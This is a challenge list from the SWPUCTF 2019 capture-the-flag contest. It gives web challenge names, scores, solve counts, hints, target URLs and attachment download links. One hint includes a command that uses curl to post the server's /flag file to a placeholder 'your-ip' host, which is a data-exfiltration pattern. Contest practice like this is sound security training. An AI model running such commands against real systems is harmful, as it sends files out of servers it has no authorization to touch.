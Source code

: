 ## 比赛信息

动态分数

<br/>

## Writeup

[swpuctf2019 p1KkHeap 详细题解](https://blog.csdn.net/seaaseesa/article/details/103450524)

<br/>

## 附件链接

链接：https://pan.baidu.com/s/1-dreAG9ysc7KNNLZLccphg 提取码：hdxw

链接：https://share.weiyun.com/ixpHvG2c 密码：ymo0fz

链接：https://t1m.lanzous.com/b0aet0rwd 密码:hdxw

<br/>

## WEB

### easy_web(317.35pt,42solved)

> hint1：不是xss || hint2：使用somd5解flag
> URL http://211.159.177.185:23456

<br/>

### python简单题(373.84pt,32solved)

> 快速获取flag: curl -d "@/flag" your-ip
> URL http://114.67.109.247:2333

<br/>

### easy_python(556.09pt,13solved)

> 不需要扫描器 || 描述：python 环境 3.5.2
> URL http://47.101.36.165:7777

<br/>


### demo_mvc(820.35pt,3solved)

> 无需扫描 hint:PDO::query
> URL http://182.92.220.157:11116

<br/>

### FFFFF(1000pt,0solved)
